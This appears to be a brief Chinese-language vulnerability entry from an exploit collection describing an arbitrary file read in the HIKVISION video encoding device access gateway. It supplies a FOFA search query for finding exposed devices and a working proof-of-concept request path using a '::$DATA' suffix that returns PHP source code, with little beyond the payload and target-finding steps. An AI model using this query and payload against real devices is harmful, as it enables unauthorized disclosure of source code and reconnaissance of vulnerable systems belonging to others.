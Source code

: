 # HIKVISION 视频编码设备接入网关 $DATA 任意文件读取

## 漏洞描述

HIKVISION 视频编码设备接入网关存在配置错误特性，特殊后缀请求php文件可读取源码

## 漏洞影响

```
HIKVISION 视频编码设备接入网关
```

## FOFA

```
title="视频编码设备接入网关"
```

## 漏洞复现

登陆页面

![image-20220519174129368](./images/202205191741462.png)

POC

```
/data/login.php::$DATA
```

![image-20220519174235421](./images/202205191742487.png)